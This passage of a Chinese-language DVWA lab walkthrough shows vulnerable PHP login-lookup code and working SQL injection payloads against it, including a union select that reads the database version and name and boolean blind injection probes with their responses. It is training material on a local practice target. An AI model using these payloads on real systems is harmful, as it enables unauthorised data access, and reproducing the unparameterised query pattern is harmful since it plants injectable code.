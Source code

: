 ```php
    $id = $_SESSION[ 'id' ];
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
```

看到没有做任何过滤，只有 LIMIT 1 , 做了一些限制但是也可以直接注释掉，尝试注入一下

```
ID: ' union select @@version,database() #  
First name: 5.7.26  
Surname: dvwa
```

看到也可以成功注入


#### [SQL Injection (Blind)](http://127.0.0.1/dvwa-master/vulnerabilities/sqli_blind/)

##### Low

```php
    $id = $_GET[ 'id' ];
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); 
    $num = @mysqli_num_rows( $result ); 
```

使用@压制住了 MySQL 的错误

```
' or 1=1 # 
User ID exists in the database.

' or 1=2 # 
User ID is MISSING from the database.
```

发现只会回显这两个提示，那就存在布尔盲注

```sql
' or length(database())>3 #
User ID exists in the database.

' or length(database())>4 #
User ID is MISSING from the database.
```




* * * *

## Sqli靶场 实战 wp

## less-1
